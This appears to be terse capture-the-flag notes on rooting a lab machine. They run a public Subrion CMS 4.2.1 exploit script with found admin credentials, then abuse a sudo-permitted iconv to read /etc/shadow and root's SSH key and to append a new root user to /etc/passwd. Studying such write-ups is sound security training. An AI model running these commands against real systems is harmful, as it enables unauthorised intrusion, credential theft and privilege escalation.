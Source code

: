 [[nmap]]

[[ffuf]]

[[wpscan]]

[[smbclient]]

[[cyberchef.io]]

admin:Scam2021

[[searchsploit]] CMS subrion v4.2.1

```bash
head -n 20 49876.py
python3 49876.py -u http://10.10.25.125/subrion/panel/ -l admin -p Scam2021
```
[[Shell]]

[[wordpress]]
```bash
su scamsite
ImAScammerLOL!123!
```
```bash
sudo -l
```
NOPASSWD: /usr/bin/iconv

[[GTFOBins]]
iconv

```
LFILE=file_to_read
iconv -f 8859_1 -t 8859_1 "$LFILE"
```

*Crack root hash*
```bash
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /etc/shadow
```
*Get root ssh key*
```bash
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/.ssh/id_rsa
```

> [!NOTE] Local machine
> Contents
> ```bash
vim root_id_rsa
chmod 600 root_id_rsa
ssh root@10.10.26.125 -i root_id_rsa
ssh2john root_id_rsa > id_rsa

*Check root bash history*
```bash
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/.bash_history
```

*Write to file etc/passwd*
```bash
echo "DATA" | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o /tmp/test
cat /tmp/test

openssl passwd -1 pass
head -n 1 /etc/passwd
echo 'root2:$1$MdOU2LrC$MJ53Sq1G.IyQFGjLNZvEr.:0:0:root:/root:/bin/bash' >> passwd
cat passwd
cat passwd | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o /etc/passwd
tail /etc/passwd
su root2
password:pass
whoami
cd /root
ls
```


